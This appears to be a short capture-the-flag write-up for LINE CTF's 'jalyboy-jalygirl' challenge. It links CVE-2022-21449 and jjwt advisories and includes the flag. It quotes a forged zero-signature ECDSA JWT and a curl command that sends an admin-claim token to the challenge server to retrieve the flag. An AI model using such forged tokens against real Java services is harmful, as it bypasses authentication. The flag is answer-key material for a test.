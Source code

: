 # jalyboy-jalygirl

## Flag

LINECTF{abaa4d1cb9870fd25776a81bbd278932}

## Solver

Dockerfile:

```dockerfile
FROM openjdk:17.0.1-jdk-slim
```

- [CVE-2022-21449](https://www.cve.org/CVERecord?id=CVE-2022-21449)

- [jjwt/CHANGELOG.md at 0.11.3 · jwtk/jjwt](https://github.com/jwtk/jjwt/blob/0.11.3/CHANGELOG.md)

    > This patch release adds security guards against an ECDSA bug in Java SE versions 15-15.0.6, 17-17.0.2, and 18 (CVE-2022-21449). This patch allows JJWT users using those JVM versions to upgrade to JJWT 0.11.3, even if they are unable to upgrade their JVM to patched/fixed JVM version in a timely manner. Note: if your application does not use these JVM versions, you are not exposed to the JVM vulnerability.

- [JVM Vulnerabiliity CVE-2022-21449 · Issue #726 · jwtk/jjwt](https://github.com/jwtk/jjwt/issues/726#issuecomment-1106140655)

    > I can confirm that jjwt 0.11.2 is vulnerable.
    >
    > This JWT will pass all checks:
    >
    > eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJCb2IifQ.MAYCAQACAQA

```console
$ curl -s http://34.85.123.82:10001/?j=eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA | grep -o 'LINECTF{.*}'
LINECTF{abaa4d1cb9870fd25776a81bbd278932}
```
